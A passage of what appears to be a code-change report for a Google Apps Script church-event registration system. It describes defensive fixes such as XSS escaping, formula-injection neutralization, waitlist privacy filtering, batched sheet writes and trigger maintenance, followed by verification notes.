#### 5. Issue 2.4 (P1 High): Lodging Sync State Preservation & Rejection Filter
* **File:** `Code.gs`, function `syncLodgingAndRoomsForSheet()`
* **Change:**
  * Added checks for `Medical Consent` and `Email Status`. Registrations rejected for lack of medical consent or coordinator decision are skipped.
  * Inspected existing statuses from the `Lodging` sheet and preserved `CANCELLED` status.
  * Mapped waitlisted participants to `"WAITLISTED"` instead of hardcoding all rows to `"Active"`.

#### 6. Issue 2.5 (P1 High): Public Driver Signup Waitlist Leak Prevention
* **File:** `TransportationSync.gs`, function `clusterAndChunkTransportation()`
* **Change:** Updated status filtering to check `statusUpper === "CANCELLED" || statusUpper === "WAITLISTED"`. Waitlisted participants are excluded from vehicle chunking and bin-packing algorithms, preserving participant privacy on public sheets.

#### 7. Issue 1.2 (P1 High): Global XSS Sanitization & URL Filtering in Sidebar
* **File:** `Sidebar.html`
* **Change:**
  * Moved `escapeHtml()` and `sanitizeUrl()` definitions into the top-level `<script>` block.
  * Escaped `err.message` in the initialization failure handler to prevent stored XSS.
  * Sanitized all generated URLs (`publishedUrl`, `editUrl`, `sheetUrl`, `publicTransportUrl`, `folderUrl`) before rendering into the DOM in `onSuccess()`.

#### 8. Issue 1.3 (P1 High): Formula Injection Defense in Check-In Synchronization
* **File:** `Code.gs`, function `syncCheckInAndChangeLogForSheet()`
* **Change:** Wrapped `lastName`, `firstName`, `localChurch`, `arrivalSummary`, `saved.notes`, and `emailRecipient` in `formatSheetTextValue()` before inserting rows into the `Check-In` sheet, neutralizing potential formula injection payloads (`=`, `+`, `-`, `@`).

#### 9. Issue 2.6 (P2 Medium): Method Signature Conformance for `setFontLine`
* **File:** `Code.gs`, function `masterRespondToRegistration()`
* **Change:** Replaced ternary expressions passing `null` (`isWait ? "none" : (isCancelled ? "none" : null)`) with `"none"` across pickup (line 3694), dropoff (line 3858), and lodging (line 4139) sheets, eliminating Apps Script runtime method signature errors.

#### 10. Issue 3.1 (P2 Medium): Batch Writing & Validation in Change Log
* **File:** `Code.gs`, function `logRegistrationChanges()`
* **Change:** Replaced the loop executing iterative `appendRow()` and `setDataValidation()` calls with a 2D array batch write (`setValues()`) followed by a single range `.setDataValidation()` call, reducing Sheets API roundtrips from $2N$ to 2.

#### 11. Issue 3.2 (P2 Medium): Lifecycle Cron Config Normalization & Exact End-Time Detection
* **File:** `Code.gs`, functions `syncActiveEventsFromSystemLog()`, `masterFormLifecycleCron()`
* **Change:**
  * Detected `:` in registration close date strings to set `isExactEnd: true`, eliminating the artificial 24-hour closure delay when an exact timestamp is specified.
  * Wrapped monitored config lookups in `normalizeMonitoredConfig()`.
  * Persisted `isAutoClosed` state back to `ScriptProperties` when automated closures occur.

#### 12. Issue 3.3 (P3 Low): Baseline Lifecycle Trigger Retention & Email Scrubbing
* **File:** `Code.gs`, functions `deleteAllTriggers()`, `testEmailVersions()`
* **Change:**
  * Re-created the hourly `masterFormLifecycleCron` trigger in `deleteAllTriggers()` to prevent project lifecycle automation from being orphaned after trigger resets.
  * Replaced hardcoded personal test email address with `Session.getActiveUser().getEmail() || "us.events@tjc.org"`.

---

### Verification and Quality Assurance
1. **Syntax Validation**: Checked all modified source files (`Code.gs`, `TransportationSync.gs`) using Node.js `vm.Script` compiler; passed with 0 syntax errors.
2. **Static Analysis**: Audited code with ESLint against all Google Apps Script services (`SpreadsheetApp`, `FormApp`, `DriveApp`, `PropertiesService`, `LockService`, `MailApp`, `UrlFetchApp`, etc.); passed with 0 warnings and 0 errors.
3. **Repository Status**: Changes committed and pushed to `origin/main` on [davidliou-tech/USGA_Events](https://github.com/davidliou-tech/USGA_Events).
